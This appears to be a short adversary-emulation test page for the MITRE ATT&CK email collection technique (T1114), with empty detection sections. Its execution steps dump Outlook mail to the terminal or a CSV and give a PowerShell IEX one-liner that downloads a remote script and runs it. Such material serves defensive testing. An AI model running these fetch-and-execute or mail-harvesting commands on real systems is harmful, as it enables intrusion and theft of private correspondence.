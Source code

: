 Technique Description: Email Collection (T1114)
------------------------------------
Attackers may steal emails to collect sensitive information about their target. They may target email applications like Outlook.

Assumptions 
-------------

Execution
-------------
Display email contents in the terminal  PS C:\> .\Get-Inbox.ps1
Write emails out to a CSV  PS C:\> .\Get-Inbox.ps1 -file "mail.csv"
Download and Execute  "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/ARTifacts/Misc/Get-Inbox.ps1')"

 Detection 
-------------

 Visibility 
-------------

### Filter/ Correlation Rule ###
